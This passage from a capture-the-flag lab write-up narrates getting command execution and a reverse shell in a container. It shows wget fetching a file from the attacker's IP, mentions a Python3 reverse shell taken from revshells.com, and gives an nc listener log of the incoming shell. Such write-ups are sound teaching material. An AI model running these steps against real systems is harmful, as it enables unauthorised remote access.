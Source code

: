 "Execute Command (background)" doesn't return anything, and the button
stays disabled until I refresh the page.

Trying to run `ping` returns an error that it can't run without root:



    PING 10.10.14.6 (10.10.14.6): 56 data bytes
    ping: permission denied (are you root?)



`curl` isn't on the box, but `wget` is. When I send `wget 10.10.14.6`,
there's a request at my Python webserver, and then the response says:



    Connecting to 10.10.14.6 (10.10.14.6:80)
    wget: can't open 'index.md': Permission denied



That implies that the current user doesn't have write permissions in the
current directory. I'll try changing the output to different
directories, but it always fails. Interestingly, if I try to save it as
a name without an extension, it does work:



    Connecting to 10.10.14.6 (10.10.14.6:80)
    saving to '/tmp/index'
    index                100% |********************************|   532  0:00:00 ETA
    '/tmp/index' saved



#### Shell

I can get a shell in the container. I used the `alpine-python:latest`
container, which means there is Python. `python` isn't in the path, but
`python3` is. I'll generate a "Python3 #2" reverse shell from
[revshells.com](https://www.revshells.com/), and run it as as a
background command. It connects back, with some odd chacters but
otherwise working fine:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.184 41814
    / $ ^[[49;5Rpwd
    /
    / $ ^[[49;5Rls
    bin      home     media    proc     sbin     tmp
    dev      lib      mnt      root     srv      usr
    etc      logfile  opt      run      sys      var
    console?prompt=/%20$%20^[[49;5R



The container is basically empty, which isn't surprising, as it's a
container I just created. That said, there is a misconfiguration in how
this container runs background commands that would let me skip several
of the next steps, which I'll cover in [Beyond Root](#beyond-root).
